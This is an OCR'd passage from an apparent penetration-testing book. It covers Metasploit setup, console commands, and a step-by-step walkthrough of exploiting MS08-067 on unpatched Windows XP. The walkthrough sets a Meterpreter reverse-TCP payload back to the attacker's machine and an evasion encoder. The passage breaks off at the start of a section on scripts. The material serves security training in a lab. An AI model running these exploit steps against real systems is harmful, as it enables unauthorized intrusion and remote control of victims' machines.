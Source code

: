 ○ update-rc.d postgresql enable
● Start and stop the Metasploit service (this will setup your database.yml file for you)
○ service metasploit start
○ msfconsole
○ exit
○ service metasploit stop
● Log everything to /root/msf_console.log at a command prompt:
○ echo "spool /root/msf_console.log" > /root/.msf4/msfconsole.rc
● Start Metasploit Command Line
○ Msfconsole
Running Metasploit - Common Configuration Commands:
● help: Use help as much as you can!
● search [string]: Search for vulnerability by CVE, title, application, etc.
● use [module]: select module
● info: get information once a module is selected
● show options: show the requirements for the module
● set and setg: Set the variables from show options. You can use setg for Global
Variables. If you are jumping between modules and exploits and you don’t want to
type in the IP address (or other input) every time, use setg instead of set
● If you are using a remote exploit, you might not see the PAYLOAD as a choice
inside show options, but you can always set it with: set PAYLOAD [hit tab a couple
times to see the choices]
● To set custom payloads: set EXE::Custom [file]
● exploit -j: active module to the background any connections to the listening handler
Running Metasploit - Post Exploitation And Other
● sessions -K: Kill all sessions
● background: From a Meterpreter shell, go back into the main menu, but keep your
current session established in the background
● Resource file scripts to automate your handler (more info at the tips and tricks
section of the book): msfconsole -r resource.rc
● http://www.cheatography.com/huntereight/cheat-sheets/metasploit-4-5-0-dev15713/
● http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands
The best method is to learn through example. I know that the MS08-067 vulnerability is pretty old, but
I still find these vulnerabilities every so often and the attack is extremely stable compared to other
remote attacks. For those who have never used or exploited the MS08-067 vulnerability, I
recommend setting up a lab with an old unpatched Windows XP system and trying this exact example.
If you are an expert MS08-067'er, you can skip this short section.
Using Metasploit For MS08-067:
● Dropping into Metasploit on Kali:
○ Open up a terminal and type: msfconsole
● To search for a vulnerability, type:
○ search ms08-067
● Select the exploit from the search results, type:
○ use exploit/windows/smb/ms08_067_netapi
● See options required for the exploit to work, type:
○ show options
● Set IP information, type:
○ set RHOST [IP of vulnerable Windows host]
○ set LHOST [IP of your machine]
● Select which payloads (to get a better understanding of the types of payloads
review: http://www.offensive-security.com/metasploit-unleashed/Payload_Types)
and encoder to use, type:
○ set PAYLOAD windows/meterpreter/reverse_tcp
○ set ENCODER x86/shikata_ga_nai
● Run the attack, type:
○ exploit
Metasploit
These are the basics of Metasploit and we will build off these really quickly. Make sure you spend
time exploiting Windows and Linux machines before trying any attacks in the wild.
Scripts
There were countless times where I found exploits for vulnerabilities that were not in Metasploit.
Usually, when searching for vulnerabilities based on version numbers from the banner-grabbing